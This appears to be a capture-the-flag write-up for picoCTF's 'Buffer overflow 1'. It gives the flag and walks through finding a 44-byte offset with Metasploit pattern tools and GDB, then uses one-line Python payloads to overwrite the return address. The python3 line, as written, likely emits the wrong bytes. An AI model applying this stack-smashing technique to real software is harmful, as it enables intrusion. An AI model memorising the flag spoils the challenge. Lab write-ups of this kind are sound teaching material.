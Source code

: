 # Exp

# Flag:  picoCTF{addr3ss3s_ar3_3asy_2e53b270}

Control the return address Now we’re cooking! You can overflow the buffer and return to the flag function in the program.

```
msf-pattern_create -l 50
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
```

In GDB
```
gdb vuln
GNU gdb (Debian 10.1-2) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) run
Starting program: /home/user/picoCTF/Buffer-overflow-1/vuln
Please enter your string:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Okay, time to return... Fingers Crossed... Jumping to 0x35624134

Program received signal SIGSEGV, Segmentation fault.
0x35624134 in ?? ()
(gdb) q
```

Offset at 0x35624134

```
msf-pattern_offset -l 50 -q 35624134
[*] Exact match at offset 44
```

Offset is 44

```
objdump -d vuln
win address is 080491f6
```

python2.7 -c "print('A' * 44 + '\xf6\x91\x04\x08')" | ./vuln

python3 -c "print('A' * 44 + '\xf6\x91\x04\x08')" | ./vuln

